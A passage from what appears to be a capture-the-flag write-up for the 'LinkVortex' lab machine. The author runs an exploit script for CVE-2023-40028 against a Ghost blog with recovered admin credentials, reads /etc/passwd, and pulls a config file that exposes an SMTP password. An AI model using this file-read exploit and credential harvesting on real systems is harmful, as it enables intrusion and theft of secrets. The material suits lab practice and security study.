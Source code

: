 
And eventually `admin@linkvortex.htb` worked as `username` together with one of the `passwords`.

```c
┌──(kali㉿kali)-[/media/…/Machines/LinkVortex/files/CVE-2023-40028]
└─$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file>
```

First we checked the `/etc/passwd` for all available `usernames` on the system.

```c
file> /etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin node:x:1000:1000::/home/node:/bin/bash
```

Then we checked the `path` for the `config.production.json` which we found inside the `Dockerfile` and got granted a few credentials.

```c
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```
